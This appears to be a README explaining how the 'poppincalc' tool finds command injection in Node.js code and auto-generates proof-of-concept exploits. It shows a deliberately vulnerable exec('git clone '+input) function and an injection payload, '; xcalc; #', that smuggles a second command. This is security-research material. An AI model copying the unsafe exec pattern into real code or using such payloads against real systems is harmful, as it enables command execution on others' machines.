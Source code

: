# How Does `poppincalc` Work?

`poppincalc` takes one argument `target`. This `target` can either be a path to a codebase or a URL to a git repository.

### Example:

    $ poppincalc /path/to/random_project
  
    $ poppincalc https://github.com/zealabs/poppincalc.git
  
# The Algorithm

`poppincalc` recursively performs a file search where it lists all the files in the codebase directory. Like this:

```
├── LICENSE
├── main.go
├── README.md
├── src
│   └── modules
│       ├── javascript.go
│       └── read_source.go
└── templates
    ├── go.yaml
    ├── javascript.yaml
    ├── python.yaml
    └── ruby.yaml
```

Almost every project has a configuration file. For example in a `NodeJS` project, there is a file named `package.json`. In this `package.json` file there will be a JSON key called `main`:

```json
"main": "app.js"
```

This will be the first script to the fuzzing queue. To identify a **Command Injection** vulnerability, one of the example is `child_process`.

### Here is an example:

```js
const example = require('child_process');

module.exports = function Testing(input) {
  example.exec("git clone "+input);
} 
```

### `poppincalc`'s Approach To Identify The Vulnerability

`poppincalc` searches for the keyword:

```js
require('child_process')
```

And gets the full line which contains this keyword.

So that is:

```js
const example = require('child_process');
```

So here `example` is the function to call the methods from `child_process`. So we have to carve out just that.

### How Do We Do That?

We have reserved keywords in every languages, all we need a list/dict of that.

Some example reserved keywords in JavaScript are:

```
let
var
const
function
return
for
if
else
...
...
```

If we remove these keywords and strip out whitespaces, we will end up with:

```
example
```

This is the function we use to call the methods of `child_process`.

### Identifying Where `child_process` Is Used?

```js
const example = require('child_process');

module.exports = function Testing(input) {
  example.exec("git clone "+input);
} 
```

Here in this example vulnerable script, the `public` exported function `Testing()` is what calling the `exec()` method from `child_process`. We can do the same with carving out reserved keywords and identifying the function name that calls this vulnerable `exec()` function.

### Exploit Generation

Now `poppincalc` knows the function `example` is `child_process` and `example.exec()` method call belongs to the function `Testing` which takes in an argument variable `input`.

`input` is not a reserved keyword so we also have that in out hand, so `poppincalc` checks for sinks of every string retrieved in the script. Only `input` sinks into the `example.exec()` which means the payload is to be given to function `Testing()`.

### Payload Generation Steps

1. Import the vulnerable script (let's say `vulnerable.js`)
2. Call the vulnerable function with the payload as argument.

**Step 1:**

```js
const vulnerable = require('./vulnerable.js');
```

**Step 2:**

```js
vulnerable.Testing("; xcalc; #");
```

**Combining The Exploit:**

```js
const vulnerable = require('./vulnerable.js');

vulnerable.Testing("; xcalc; #");
```

Now `poppincalc` will generate multiple payloads to test what works because some of them can lead to false-positives since how the command crafted can be different in different use cases.

For testing, the payload would be to print out something and read the `stdout` to ensure the successfull exploitation. This payload pattern is then used to _**pop open a calculator**_.

**Finally the exploit is executed:**

    $ node exploit.js
  
### POPPED A CALC!

![calc](https://i.imgur.com/GNlTkeT.png)

Just like this popular languages' parsers will be written to strip out reserved keywords and identify what the vulnerable function belongs to and where it's called!

<hr>
